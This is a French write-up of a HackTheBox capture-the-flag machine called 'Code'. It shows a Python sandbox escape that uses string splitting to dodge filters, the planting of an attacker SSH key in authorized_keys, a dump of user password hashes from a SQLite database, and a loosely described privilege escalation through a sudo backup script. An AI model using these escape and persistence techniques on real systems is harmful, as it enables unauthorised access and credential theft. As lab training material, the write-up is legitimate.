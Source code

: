 # Challenge CTF: CODE HTB

## Exploration Initiale

Nous remarquons que le port **5000** est ouvert avec le protocole **HTTP**. En y accédant, nous découvrons un compilateur Python en ligne. Nous essayons donc dans un premier temps de lister les classes disponibles avec le script suivant :

```python
for i, cls in enumerate(''.__class__.__mro__[1].__subclasses__()):
    print(f"Index {i}: {cls.__name__}")
```

Ce script fonctionne et nous renvoie un résultat utile.

---

## Création d'un accès SSH

Nous constatons que l'utilisateur n'a pas de dossier **.ssh**. Nous allons donc en créer un afin d'établir une connexion SSH ultérieurement.

### Création du dossier `.ssh`

```python
b = (0).__class__.__base__.__subclasses__()[138].__init__.__globals__
i = b['__bui' + 'ltins__']
i['__im' + 'port__']('o'+'s').__getattribute__('make' + 'dirs')('/home/app-production/.ssh/')
```

### Ajout de notre clé publique SSH

```python
f = ''.__class__.__mro__[1].__subclasses__()[133].__init__.__globals__['__bui'+'ltins__']['op'+'en']('/home/app-production/.ssh/authorized_keys', 'w')
getattr(f, 'w'+'rite')('ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAa4YWMYFMgqwAKvvz4HsksklM78XxsjF6mGuwKcJOdpxhYBNNDyyh/WBGYI/zoEQCQBuZjjm+jgEJYsyNLOAt8= kali@kali')
getattr(f, 'clo'+'se')()
```

---

## Accès à la base de données SQLite

Nous trouvons des indices dans un fichier de configuration indiquant la présence d'une base de données **SQLite3**.

### Localisation de la base de données

```bash
app-production@code:~$ find / -name "database.db" 2>/dev/null
/home/app-production/app/instance/database.db
/home/app-production/instance/database.db
```

### Exploration de la base de données

```bash
app-production@code:~$ sqlite3 /home/app-production/app/instance/database.db
SQLite version 3.31.1 2020-01-27 19:55:54
Enter ".help" for usage hints.
```

#### Récupération des tables disponibles

```sql
sqlite> .tables
code  user
```

#### Extraction des utilisateurs et mots de passe

```sql
sqlite> select * from user;
1|root|new_root_password
2|martin|3de6f30c4a09c27fc71932bfc68474be
3|sojlen|202cb962ac59075b964b07152d234b70
```

Nous obtenons ainsi le mot de passe de **Martin**.

---

## Escalade de Privilèges

En nous connectant avec l'utilisateur **Martin**, nous utilisons la commande suivante :

```bash
martin@code:~$ sudo -l
```

Nous découvrons un script **/usr/bin/backy.sh** qui peut être exécuté avec sudo.

### Contenu du script `backy.sh`

```bash
#!/bin/bash

if [[ $# -ne 1 ]]; then
    /usr/bin/echo "Usage: $0 <task.json>"
    exit 1
fi

json_file="$1"

if [[ ! -f "$json_file" ]]; then
    /usr/bin/echo "Error: File '$json_file' not found."
    exit 1
fi

allowed_paths=("/var/" "/home/")

updated_json=$(/usr/bin/jq '.directories_to_archive |= map(gsub("\.\./"; ""))' "$json_file")

/usr/bin/echo "$updated_json" > "$json_file"

directories_to_archive=$(/usr/bin/echo "$updated_json" | /usr/bin/jq -r '.directories_to_archive[]')

is_allowed_path() {
    local path="$1"
    for allowed_path in "${allowed_paths[@]}"; do
        if [[ "$path" == $allowed_path* ]]; then
            return 0
        fi
    done
    return 1
}

for dir in $directories_to_archive; do
    if ! is_allowed_path "$dir"; then
        /usr/bin/echo "Error: $dir is not allowed. Only directories under /var/ and /home/ are allowed."
        exit 1
    fi
done

/usr/bin/backy "$json_file"
```

Nous exploitons une faille dans le script pour exécuter des commandes arbitraires.

### Exploitation

Nous pouvons utiliser **tar** pour extraire du contenu sensible dans `/home/martin/backup/` :

```bash
tar -xvf code
```

Cela nous donne accès aux fichiers nécessaires pour obtenir l'accès root.

---

## Récupération du Flag Root

En exploitant la vulnérabilité du script, nous obtenons un accès **root**, nous permettant de lire le fichier **/root/root.txt**.


